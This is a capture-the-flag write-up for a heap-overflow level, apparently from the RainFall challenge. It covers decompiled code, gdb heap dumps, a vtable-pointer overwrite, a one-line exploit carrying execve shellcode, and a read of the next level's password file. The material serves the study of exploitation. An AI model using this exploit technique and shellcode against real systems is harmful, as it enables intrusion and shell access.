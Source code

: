 ## Step 1: Static & Dynamic Analysis

```c
PTR_operator+_08048848                          XREF[1]:     N:080486fc(*)  
        08048848 3a 87 04 08     addr       N::operator+
        0804884c 4e 87 04 08     addr       N::operator-


void __thiscall N::setAnnotation(N *this,char *param_1)
{
  size_t __n;
  
  __n = strlen(param_1);
  memcpy(this + 4,param_1,__n);
  return;
}

void __thiscall N::N(N *this,int param_1)
{
  *(undefined ***)this = &PTR_operator+_08048848;
  *(int *)(this + 0x68) = param_1;
  return;
}

void main(int param_1,int param_2)
{
  N *this;
  undefined4 *this_00;
  
  if (param_1 < 2) {
    _exit(1);
  }
  this = (N *)operator.new(0x6c);
  N::N(this,5);
  this_00 = (undefined4 *)operator.new(0x6c);
  N::N((N *)this_00,6);
  N::setAnnotation(this,*(char **)(param_2 + 4));
  (**(code **)*this_00)(this_00,this);
  return;
}
```

### Explanation
The binary creates two structures, `this` and `this_00`, and allocates them on the heap, each with a size of `108 bytes`. The first `4 bytes` of each structure store a pointer to a function, and the last `4 bytes` store a value (`5` and `6`). The `setAnnotation()` function copies the content of `argv[1]` into the remaining `100 bytes` of the `this` structure. However, this function does not perform any checks for potential `buffer overflows`.
In the final part of the binary, the function pointer stored in `this_00` is dereferenced to execute an operation involving the values stored in `this` and `this_00`.

```asm
(gdb) info proc map                                                                                                                           
process 3525                                                                                                                                  
Mapped address spaces:                                                                                                                        
                                                                                                                                              
        Start Addr   End Addr       Size     Offset objfile                                                                                   
         0x8048000  0x8049000     0x1000        0x0 /home/user/level9/level9                                                                  
         0x8049000  0x804a000     0x1000        0x0 /home/user/level9/level9                                                                  
         0x804a000  0x806b000    0x21000        0x0 [heap]                                                                                    
        0xb7cfa000 0xb7cfc000     0x2000        0x0                                                                                           
        0xb7cfc000 0xb7d18000    0x1c000        0x0 /lib/i386-linux-gnu/libgcc_s.so.1                                                         
        0xb7d18000 0xb7d19000     0x1000    0x1b000 /lib/i386-linux-gnu/libgcc_s.so.1                                                         
        0xb7d19000 0xb7d1a000     0x1000    0x1c000 /lib/i386-linux-gnu/libgcc_s.so.1                                                         
        0xb7d1a000 0xb7d44000    0x2a000        0x0 /lib/i386-linux-gnu/libm-2.15.so                                                          
        0xb7d44000 0xb7d45000     0x1000    0x29000 /lib/i386-linux-gnu/libm-2.15.so                                                          
        0xb7d45000 0xb7d46000     0x1000    0x2a000 /lib/i386-linux-gnu/libm-2.15.so                                                          
        0xb7d46000 0xb7d47000     0x1000        0x0                                                                                           
        0xb7d47000 0xb7eea000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so                                                          
        0xb7eea000 0xb7eec000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so                                                          
        0xb7eec000 0xb7eed000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so                                                          
        0xb7eed000 0xb7ef0000     0x3000        0x0                                                                                           
        0xb7ef0000 0xb7fc8000    0xd8000        0x0 /usr/lib/i386-linux-gnu/libstdc++.so.6.0.16                                               
        0xb7fc8000 0xb7fc9000     0x1000    0xd8000 /usr/lib/i386-linux-gnu/libstdc++.so.6.0.16                                               
        0xb7fc9000 0xb7fcd000     0x4000    0xd8000 /usr/lib/i386-linux-gnu/libstdc++.so.6.0.16                                               
        0xb7fcd000 0xb7fce000     0x1000    0xdc000 /usr/lib/i386-linux-gnu/libstdc++.so.6.0.16                                               
        0xb7fce000 0xb7fd5000     0x7000        0x0                                                                                           
        0xb7fdb000 0xb7fdd000     0x2000        0x0 
        0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
        0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
        0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
        0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
        0xbffdf000 0xc0000000    0x21000        0x0 [stack]
```

```gdb
run "$(python -c 'print("A" * 100)')"
```

```asm
(gdb) x/64wx 0x804a000
0x804a000:      0x00000000      0x00000071      0x08048848      0x41414141
0x804a010:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a020:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a030:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a040:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a050:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a060:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a070:      0x00000005      0x00000071      0x08048848      0x00000000
0x804a080:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a090:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0a0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0b0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0c0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0d0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0e0:      0x00000006      0x00020f21      0x00000000      0x00000000
0x804a0f0:      0x00000000      0x00000000      0x00000000      0x00000000
```
The heap layout reveals that the two structures are allocated consecutively in memory. Providing input larger than `100 bytes` will result in writing beyond the bounds of this, allowing us to modify the content of `this_00`. This includes overwriting the function pointer stored in the first `4 bytes` of `this_00`.

The program dereferences the function pointer stored in `this_00`, expecting it to point to a valid function. However, instead of directly pointing the overwritten function pointer to the [shellcode](https://shell-storm.org/shellcode/files/shellcode-811.html) or a specific function, we make it point to an intermediary address (`0x0804a07c`). This intermediary address, in turn, holds the actual address of the shellcode (`0x0804a080`).

This two-level indirection is required because the program dereferences the function pointer once before calling it. If the function pointer in `this_00` were overwritten to directly point to the shellcode, the program would attempt to dereference the shellcode itself, leading to a crash.


## Step 2: Exploiting the Binary
```bash
level9@RainFall:~$ ./level9 $(python -c 'print(("A" * 108) + "\x08\x04\xa0\x7c"[::-1] + "\x08\x04\xa0\x80"[::-1] + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80")')
```

```bash
% cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

